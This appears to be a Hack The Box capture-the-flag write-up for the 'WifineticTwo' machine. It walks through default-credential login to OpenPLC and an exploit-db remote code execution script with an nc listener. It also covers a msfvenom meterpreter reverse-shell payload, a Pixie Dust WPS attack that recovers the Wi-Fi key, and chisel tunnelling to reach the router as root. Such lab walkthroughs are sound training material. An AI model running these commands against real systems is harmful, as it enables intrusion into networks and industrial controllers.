 HTB Machine

Thanks to @GodsMostUnstableSoldier

first, lets do a nmap scan of the box.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-17 04:44 EDT
Nmap scan report for wifinetictwo.htb (10.129.227.197)
Host is up (0.019s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy Werkzeug/1.0.1 Python/2.7.18
|_http-server-header: Werkzeug/1.0.1 Python/2.7.18
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://wifinetictwo.htb:8080/login
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     content-type: text/html; charset=utf-8
|     content-length: 232
|     vary: Cookie
...
```

visiting the website, we can see it is running openplc

First guess is to try the default credentials. The default credentials is `openplc:openplc`. And this works!

Now that we are authenticated, we can use [this exploit from exploit-db](https://www.exploit-db.com/exploits/49803)

Only one line needs to be modified, where the `compile_program` is set, change the string at the end from its default to `/compile-program?file=blank_program.st`. this program is currently present within the OpenPLC webapp.

run the program, point it back to our address to a new port which we are listening on with `nc -lvnp 3001`, and then execute the exploit with the credentials
`ython3 49803.py -u http://wifinetictwo.htb:8080 -l openplc -p openplc -i 10.10.14.63 -r 3001`

And we are in, that is user!
```
whoami
root
cd /root
ls
user.txt
```

It appears we are in some sort of virtual machine or container. as the `/root` directory only has the user.txt.

But first, to make sure that we have a stable foothold, I am going to respawn in a metasploit shell.  run `msfconsole`, and use `exploit/multi/handler`, and set the `LPORT` and `LHOST` to your system. Then use msfvenom in a new terminal, and generate the binary with the command `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.63 LPORT=3002 -f elf -o reverse.elf`, you can get this command from [revshells.com](revshells.com). 

Looking at the previous walkthrough of the [first wifinetic box walkthrough](https://0xdf.gitlab.io/2023/09/16/htb-wifinetic.html#). You will see that one of the commands it uses is `iw`, another tool we can use is `iwlist`, with the command `iwlist scan`, we can see there is only one wifi network.

```
iwlist scan
lo        Interface doesn't support scanning.

eth0      Interface doesn't support scanning.

wlan0     Scan completed :
          Cell 01 - Address: 02:00:00:00:01:00
                    Channel:1
                    Frequency:2.412 GHz (Channel 1)
                    Quality=70/70  Signal level=-30 dBm  
                    Encryption key:on
                    ESSID:"plcrouter"
                    Bit Rates:1 Mb/s; 2 Mb/s; 5.5 Mb/s; 11 Mb/s; 6 Mb/s
                              9 Mb/s; 12 Mb/s; 18 Mb/s
                    Bit Rates:24 Mb/s; 36 Mb/s; 48 Mb/s; 54 Mb/s
                    Mode:Master
                    Extra:tsf=000613d7d60eb2ce
                    Extra: Last beacon: 16ms ago
                    IE: Unknown: 0009706C63726F75746572
                    IE: Unknown: 010882848B960C121824
                    IE: Unknown: 030101
                    IE: Unknown: 2A0104
                    IE: Unknown: 32043048606C
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
                    IE: Unknown: 3B025100
                    IE: Unknown: 7F080400000200000040
                    IE: Unknown: DD5C0050F204104A0001101044000102103B00010310470010572CF82FC95756539B16B5CFB298ABF11021000120102300012010240001201042000120105400080000000000000000101100012010080002210C1049000600372A000120
```

So, considering the creator of this box is the same as the last box, we can use a WPS attack called "Pixie Dust". But for the remote execution, we need a statically compiled binary. for this, we can use [OneShot-C](https://github.com/nikita-yfh/OneShot-C) and send the binary to the target system for execution.

For this, we need to use our original shell, and use `/usr/bin/script -qc /bin/bash /dev/null` after catching the shell, then background the shell you have via `nc`, and then execute `stty raw -echo ; fg`. after that, running these two commands `export TERM=xterm` and`stty cols 132 rows 34`. 

then, we run the command `./oneshot -i wlan0 -b 02:00:00:00:01:00 -K`, and this gets us the PSK, so we can just connect to the router.

connect to the wifi network with the credentials you just got, and [this walkthrough](https://wiki.somlabs.com/index.php/Connecting_to_WiFi_network_using_systemd_and_wpa-supplicant) 

now that we are connected, we should pingsweep the network to see what is in it. To do this, we can first run a loop to ping all addresses in the network. Looking at the address given to us via the router with `ip -c a` we can see that our address is `192.168.1.84/24`. that `/24` is cidr notation, and that means the network routing is such that we are connected to an internal network of 192.168.1.XX. So we need to loop over all possible addresses at the last number for the IP address.

for this, we make a script [from this blog](https://usmcdennis0331.medium.com/creating-a-basic-ip-sweeper-with-bash-6a6b91a629f2).

```sh
for ip in `seq 1 254`; do
ping -c 1 $1.$ip | grep "64 bytes" | cut -d " " -f 4 | tr -d ":"&
done
```

```
root@attica01:/tmp# ./ipsweep.sh 192.168.1
192.168.1.1
192.168.1.84
```

Okay, we have our IP, and the router. Now we absolutely need a reverse proxy. we can use chisel for that. Lets get the binary for chisel onto the server. then, on your own machine run `chisel server -p 9001 --reverse &` to have the reverse proxy server. for the client, we refer to [this blog post](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html) and run `chisel client 10.10.14.63:9001 R:socks`

Then, with firefox, we can make it use the socks proxy. settings -> in search "proxy" -> settings...

from there, run proxychains on `firefox` to get the socks proxy to work, and in firefox make sure to head to `https://192.168.1.1`

there is no password set for the `root` user, so just give it anything, but wait, have we tried scanning the new ip with proxychains? Lets do so now. This will take a second. We can see that ports `22`, `53`, `80`, and `443` are open. SSH is open among them...

Wait, `root` had no password set. could that be true with `ssh` as well? lets check!
`proxychains ssh root@192.168.1.1`

https://www.hackthebox.com/achievement/machine/158887/593